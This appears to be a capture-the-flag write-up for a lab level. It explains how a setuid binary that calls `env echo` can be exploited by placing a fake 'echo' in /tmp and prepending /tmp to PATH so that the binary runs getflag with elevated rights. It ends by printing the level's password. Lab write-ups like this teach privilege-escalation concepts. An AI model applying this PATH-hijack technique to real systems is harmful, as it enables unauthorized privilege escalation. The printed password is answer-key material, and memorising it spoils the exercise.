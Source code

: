 # LEVEL 03

## 💡 Explanation

In this level we have to:
1. When running the file level03 we get 'Exploit me'.
2. We check the permissions of the file level03: `ls -la level03` => `-rwsr-sr-x 1 flag03  level03 8.5K Mar  5  2016 level03`:
    - The file's owner is the user 'flag03' (permissions `rws` => read, write, and setuid : execute as the user).
    - The file's group is 'level03' (permissions `r-s` => read, and setgid : execute as the group).
3. We see that it executes `/usr/bin/env echo Exploit me`.
4. We modify the command `echo` to make it run `getflag` with the flag03 user permissions.
5. Last but not least, we just have permissions to create a file in /tmp so we have to do it there.

## 👾 Commands

```
./level03
strings level03 | grep "bin"
which getflag
echo '/bin/getflag' > /tmp/echo
chmod +x /tmp/echo
export PATH=/tmp:$PATH
./level03
```

## 🔍 Resources

- [Linux strings command](https://www.javatpoint.com/linux-strings-command#:~:text=Linux%20strings%20command%20is%20used,text%20from%20an%20executable%20file.)
- [Linux ls command](https://linuxize.com/post/how-to-list-files-in-linux-using-the-ls-command/)
- [Linux File's Rights](https://tech.feub.net/2008/03/setuid-setgid-et-sticky-bit/#:~:text=Le%20principe%20du%20setgid%20est,'agit%20d'un%20r%C3%A9pertoire.)
- [Linux env command](https://www.computerhope.com/unix/uenv.htm#:~:text=env%20is%20a%20shell%20command,without%20modifying%20the%20current%20one.)

## 🔥 Password
`qi0maab88jeaj46qoumi7maus`
